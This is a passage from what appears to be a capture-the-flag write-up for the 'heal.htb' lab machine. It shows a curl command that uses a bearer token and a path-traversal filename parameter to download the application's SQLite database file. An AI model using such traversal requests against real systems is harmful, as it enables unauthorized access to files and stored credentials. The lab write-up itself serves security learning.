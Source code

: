 ![Pasted image 20250311165242.png](../../IMAGES/Pasted%20image%2020250311165242.png)


We found the database file, it is `/storage/development.sqlite3`, let's download it into our machine to analyze it:


```
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozfQ.CZbGMyPLgTWm9p2lPa9pGZ0vGQ0qKgr7RG4kj1tUSGc" "http://api.heal.htb/download?filename=../../storage/development.sqlite3" --output development.sqlite3
```

![Pasted image 20250311165424.png](../../IMAGES/Pasted%20image%2020250311165424.png)
